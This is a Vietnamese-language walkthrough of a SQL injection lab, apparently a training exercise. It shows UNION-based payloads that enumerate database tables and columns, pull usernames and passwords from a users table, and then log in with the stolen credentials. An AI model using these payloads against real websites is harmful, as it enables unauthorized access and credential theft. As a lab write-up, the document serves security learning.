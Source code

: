 ![image](https://github.com/user-attachments/assets/df4f29e7-1ca3-4db6-8be7-9ab4708420e5)

Mục tiêu: liệt kê nội dung không thuộc database của phiên bản ORACLE

Sử dụng payload đã dùng trong bài SQL trước cho Microsoft như sau  \

     'UNION SELECT 'abc','def'-- -

![image](https://github.com/user-attachments/assets/41373566-c667-4dc8-9099-9b8ed262ebbd)

Nhìn trông có vẻ như payload này đã hoạt động

Trong bài nó yêu cầu lấy dữ liệu không thuộc ORACLE nên mở cheat seat xem có payload nào hữu dụng không thì sẽ có payload database content của microsoft 

     SELECT * FROM information_schema.tables

     SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

Thử với cái payload đầu kiểu

   'UNION SELECT table_name, NULL FROM information_schema.tables-- -

   ![image](https://github.com/user-attachments/assets/05daffab-8a3f-4383-ba3e-a06491c66288)

Hỏi chatgpt về information_schema.tables 

![image](https://github.com/user-attachments/assets/68ad914f-9b73-4ad4-9e07-d31875d581ba)

Sử dụng ctrl F để check và nhập user vào(chắc vậy do trong vid cookie hân hoan phần lớn sẽ chỉ có user đi với password nên là sử dụng thử)

Sau 1 lúc thì tìm ra cái này 

![image](https://github.com/user-attachments/assets/760ac388-e8ae-415f-bae2-ef947c61643d)

users_pvyfau tìm ra được bởi do nó khác với các cái user còn lại 

Sử dụng payload sau để check mật khẩu
 
   'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_pvyfau'-- -

![image](https://github.com/user-attachments/assets/90d3e7f9-ebfd-4372-bfca-05fd980b8895)

Nhìn vào có cả user và password nên ta tiếp tục sử dụng payload sau để mò ra pass cuối

'UNION SELECT username_dgwtcr,password_gxbmfa FROM users_pvyfau-- -

![image](https://github.com/user-attachments/assets/9675646c-80dd-4acb-b9e7-42b3c4bcfb42)

Viết vào phần login là ra kết quả 

![image](https://github.com/user-attachments/assets/78987c53-6dac-4a59-87e6-3288a35c2589)
